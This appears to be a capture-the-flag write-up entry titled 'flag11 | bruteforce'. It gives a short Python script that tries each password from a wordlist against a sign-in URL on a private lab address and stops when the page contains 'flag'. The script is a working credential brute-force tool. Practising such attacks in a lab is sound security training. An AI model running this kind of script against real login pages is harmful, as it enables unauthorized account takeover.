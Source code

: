 # flag11 | bruteforce

We will create a python script that will use a list of password to try to connect to http://192.168.56.104/?page=signin&username=....&password=....&Login=Login

```python
import requests
import sys

url = "http://192.168.56.104/?page=signin&username=admin&password={}&Login=Login"

with open("passwords.txt", "r") as f:
    for line in f:
        password = line.strip()
        r = requests.get(url.format(password))
        if "flag" in r.text:
            print("Password found: {}".format(password))
            sys.exit(0)
```